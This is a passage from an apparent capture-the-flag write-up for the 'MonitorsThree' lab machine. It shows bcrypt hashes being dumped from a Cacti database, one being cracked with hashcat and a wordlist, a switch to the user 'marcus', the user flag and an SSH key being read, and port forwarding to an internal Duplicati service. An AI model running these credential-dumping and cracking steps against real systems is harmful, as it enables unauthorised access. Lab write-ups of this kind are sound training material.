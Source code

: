 ```sql
3 rows in set (0.001 sec)
```

We get logged in and see the cacti database is now available. Showing the tables, we find a `user_auth` table:
```sql
MariaDB [cacti]> select username, password from user_auth;
select username, password from user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |
| guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |
| marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |
+----------+--------------------------------------------------------------+
3 rows in set (0.001 sec)
```

Cracked Marcus' hash using hashcat:
```shell
❯ hashcat -m 3200 -a 0 bcrypt_hashes.txt ~/htb/code/rockyou.txt
hashcat (v6.2.6) starting

$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910
```

Successfully switched to marcus user, and obtained the user flag:
```shell
www-data@monitorsthree:~$ su marcus
su marcus
Password: 12345678910

marcus@monitorsthree:/var/www$ cd
cd
marcus@monitorsthree:~$ cat user.txt
cat user.txt
adeb59156b3c518a5e798e---snip---
```

Marcus also had a ssh private key, so we can get a stable ssh shell now:
```shell
marcus@monitorsthree:~$ cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
---snip---
```

## Privilege Escalation to Root

### Duplicati Exploitation

Found Duplicati running on port 8200 internally. Used port forwarding to access:
```bash
❯ ssh -L 8200:127.0.0.1:8200 -i marcus.key marcus@monitorsthree.htb
```
